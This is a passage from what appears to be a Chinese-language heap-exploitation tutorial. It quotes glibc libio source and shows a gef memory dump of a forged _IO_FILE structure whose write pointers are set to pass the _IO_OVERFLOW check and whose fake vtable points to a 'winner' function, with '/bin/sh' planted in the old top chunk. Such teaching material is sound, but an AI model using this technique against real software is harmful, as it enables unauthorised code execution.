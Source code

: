 在将 `_IO_OVERFLOW` 修改为 system 的时候，有一些条件检查：
```c
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)     // 需要修改为 system 函数
```
```c
// libio/libio.h

  struct _IO_wide_data *_wide_data;

/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```
所以这里我们设置 `fp->_mode = 0`，`fp->_IO_write_base = (char *) 2` 和 `fp->_IO_write_ptr = (char *) 3`，从而绕过检查。

然后，就是修改 `_IO_jump_t`，将其指向 winner：
```
gef➤  x/30gx p1-0x10+0x400
0x602400:	0x0068732f6e69622f	0x0000000000000061  <-- old top
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd2510      <-- bk points to io_list_all-0x10
0x602420:	0x0000000000000002	0x0000000000000003      <-- _IO_write_base, _IO_write_ptr
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
0x602450:	0x0000000000000000	0x0000000000000000
0x602460:	0x0000000000000000	0x0000000000000000
0x602470:	0x0000000000000000	0x00000000004006d3      <-- winner
0x602480:	0x0000000000000000	0x0000000000000000
0x602490:	0x0000000000000000	0x0000000000000000
0x6024a0:	0x0000000000000000	0x0000000000000000
0x6024b0:	0x0000000000000000	0x0000000000000000
0x6024c0:	0x0000000000000000	0x0000000000000000
0x6024d0:	0x0000000000000000	0x0000000000602460      <-- vtable
0x6024e0:	0x0000000000000000	0x0000000000000000
gef➤  p *((struct _IO_FILE_plus *) 0x602400)
$1 = {
```